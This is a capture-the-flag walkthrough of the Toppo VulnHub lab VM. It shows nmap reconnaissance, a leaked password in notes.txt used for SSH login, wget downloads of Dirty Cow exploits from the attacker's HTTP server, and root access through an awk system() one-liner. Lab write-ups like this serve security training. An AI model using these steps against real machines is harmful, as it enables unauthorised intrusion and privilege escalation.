





## Toppo VulnHub VM walkthrough

Toppo by https://twitter.com/h4d3sw0rm

Link: https://www.vulnhub.com/entry/toppo-1,245/


```
The Machine isn't hard to own and don't require advanced exploitation .

Level : Beginner

DHCP : activated

Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .

If you have any question : my twitter is @h4d3sw0rm

Happy Hacking !
```


## Solution

When I've ran **Toppo** on VirtualBox, it shows me IP assigned by my DHCP: 192.168.1.5. First things first - `nmap` scan to discover running sevices, their versions, OS version and so on:

```
bl4de:~/playground/VulnHub $ nmap -p- -sV -A 192.168.1.5
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-20 18:07 IST
Nmap scan report for 192.168.1.5
Host is up (0.10s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          43451/udp  status
|_  100024  1          48747/tcp  status
48747/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.24 seconds
```

As expected, typical services were running (`www` and `ssh`). 
Let's figure out if there is any web application run:


Yep, some Simple Blog web app is present. MAybe it's based on CMS with well known vulnerabilities or is just some poorly written hand-made PHP app?

Quick recon with `wfuzz` and some standard dictionaries reveals `admin` and `mail` folders. `admin` contains only one file: `notes.txt` with very interesting information:





`mail` folder contains only one PHP file: `contact_me.php`. Further investigation reveals `http://192.168.1.5/contact.html`  which posts a form to this file:


### Down The Rabbit Hole

Yep, I've assumed that what I've needed to do was to exploit contact form to get an access to the server. That was a pretty nice rabbit hole (I don't know if it was intentionally), and pretty obvious attack vector for someone who spend 95% of his hacking time digging into web apps :D, and I've spent some time trying to exploit non-existent vulnearbilities in `contact_me.php`. I've tried many payloads searching for LFI, SQL Injection and so on, and I've been loosing more and more confidence with every single fired payload, which fails.





Obvioulsy, nothing worked, but I've promised to get back to this later, keeping in mind every elite haxor Rule No. 1 - **Try Harder!**  (_spoiler: I didn't get back, as it wasn't the way to pwn this VM ;)_ )


### Getting back on track

I decided to get back to this weird `notes.txt` file:

```
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

```

Because `ssh` was working, I decided to give it a try and log in using found password and maybe some usernames. The first username I've tried was `toppo`, but it didn't work. To my surprise, on second attempt, with username `ted` found in the middle of revealed password, I was able to log in. Yay! We've got a shell!





Now, some post-exploitation stuff: `LinEnum.sh` to see more details about the machine and then `linux-exploit-suggester.sh` to find out what juicy exploit can be run on this machine.


`LinEnum` did not reveral anything exciting, except one thing: `/usr/bin/awk` can be run as `root`. As I've been focused on finding the right exploit, I've noted the fact about `awk` somewhere in my head and went straight to `linux-exploit-suggester.sh` results. Some entries immediately caught my attention:





`dirtycow` sounds like a good choice. `searchsploit` gave me some really promising list of Privilege Escallation exploits for Linux with kernels from 2.6.22 up to 3.9 (`Toppo` is a Debian 8 Jessie machine with kernel 3.16.0-4-586)





### Setting up file transfer


There was one small problem though. `Toppo` has no `gcc` installed, so I needed to find out how to compile exploits outside and send them to `Toppo`. There are plenty of methods to do such things, here's how I've created an easy way to exchange files between machines.


On my host machine (macOS High Sierra), in a folder where I kept all files i wanted to have send to `Toppo`, I ran Node HTTP Simple Server.

You can install one with this command (you will need NodeJs and npm installed and configured first):

```
$ npm i -g http-server
```

Now, you can run HTTP server in ANY folder you want:

```
bl4de:~/playground/VulnHub $ http-server -p 3000 ./
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:3000
  http://192.168.1.1:3000
Hit CTRL-C to stop the server

[Fri Jul 20 2018 00:44:45 GMT+0100 (IST)] "GET /LinEnum.sh" "Wget/1.16 (linux-gnu)"
```


From `Toppo`, I was able to download any file I needed, using `wget`, including compiled exploits:


```
ted@Toppo:~$ wget http://192.168.1.1:3000/dirtycow2
converted 'http://192.168.1.1:3000/dirtycow2' (ANSI_X3.4-1968) -> 'http://192.168.1.1:3000/dirtycow2' (UTF-8)
--2018-07-20 00:06:56--  http://192.168.1.1:3000/dirtycow2
Connecting to 192.168.1.1:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12685 (12K) [application/octet-stream]
Saving to: 'dirtycow2'

dirtycow2                 100%[====================================>]  12.39K  --.-KB/s   in 0s

2018-07-20 00:06:56 (204 MB/s) - 'dirtycow2' saved [12685/12685]

ted@Toppo:~$
```

_(BTW, I compile those exploits using another VM, Ubuntu 14.04, run with Vagrant)_


Unfortunately, none of Dirty Cow exploits worked, so I decided to use discovered `awk`, which `ted` was able to use with root privileges.

The only thing left to do was to find a way to run system commands with `awk`. Below is a very nice oneliner to achieve this, which I found on https://guif.re/linuxeop website (by Guifre Ruiz - https://twitter.com/GuifreRuiz):

```
awk 'BEGIN {system("/bin/bash")}'
```

As I didn't need to spawn a shell (I just wanted to read what's in `/root` folder), I've edited the command to list content of `/roo` directory and finally was able to get the flag and pwn `Toppo` VM:


```
ted@Toppo:~$ awk 'BEGIN {system("ls -l /root")}'
total 4
-rw-r--r-- 1 root root 397 Apr 15 10:19 flag.txt
ted@Toppo:~$ awk 'BEGIN {system("cat /root/flag.txt")}'
_________
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|


Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}


ted@Toppo:~$
```


Flag: **0wnedlab{p4ssi0n_c0me_with_pract1ce}**


## Wrap-up

`Toppo` was very nice and interesting challenge. Thank you @h4d3sw0rm for this very interetsing VM :) I look forward for your another VMs!

Happy Hacking!

bl4de
